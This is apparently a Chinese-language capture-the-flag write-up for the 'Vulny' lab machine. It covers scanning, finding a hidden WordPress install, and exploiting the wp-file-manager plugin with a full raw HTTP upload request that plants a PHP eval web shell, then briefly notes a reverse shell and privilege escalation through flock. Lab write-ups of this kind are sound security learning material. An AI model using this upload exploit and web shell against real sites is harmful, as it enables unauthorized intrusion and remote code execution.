


# Vulny

`fscan`扫描发现开放`80`端口和`33060`端口

访问`80`进入提示

> alexia, Your id_rsa is exposed, please move it!!!!! Im fighting regarding reverse shells! -nobody

使用`dirsearch`扫描到`secret`，提示

> Neither **/etc/wordpress/config-192.168.1.95.php** nor **/etc/wordpress/config-168.1.95.php** could be found.
> Ensure one of them exists, is readable by the webserver and contains the right password/username.

说明`wordpress`在`secret`目录下面，使用`dirsearch`继续扫

```bash
dirsearch -u http://192.168.1.95/secret/ -t 50
```



发现了`wordpress`目录

`/secret/wp-content/`



`/secret/wp-content/uploads/`


在这里发现了一个`wp-file-manager-6.O`，构造数据包

```
POST /secret/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php HTTP/1.1
Host: 192.168.1.95
User-Agent: curl/7.88.1
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarya0abvsXYfhrraydm
Content-Length: 141

------WebKitFormBoundarya0abvsXYfhrraydm
Content-Disposition: form-data; name="cmd"

upload
------WebKitFormBoundarya0abvsXYfhrraydm
Content-Disposition: form-data; name="target"

l1_
------WebKitFormBoundarya0abvsXYfhrraydm
Content-Disposition: form-data; name="upload[]"; filename="1.php"
Content-Type: application/octet-stream

<?php @eval($_POST[1]);?>
------WebKitFormBoundarya0abvsXYfhrraydm--

```


然后访问

```
http://192.168.1.95/secret/wp-content/plugins/wp-file-manager/lib/files/1.php
```

即可


查看`suid`提权、`sudo -l`、`capabilities提权`都没找到能提权的，尝试查看之前数据库

```bash
$ find / -perm -4000 2>/dev/nul
```


一直没找到密码，突然想到之前提示的`/etc/wordpress/config-192.168.1.95.php`


翻完了什么东西都没找到


看别人wp说是这里有个奇怪的注释，我真没注意....


然后登录`adrian`，这里我`su - adrian`一直提示我`Password: su: Authentication failure`，我先`反弹shell`，然后使用`flock`提权

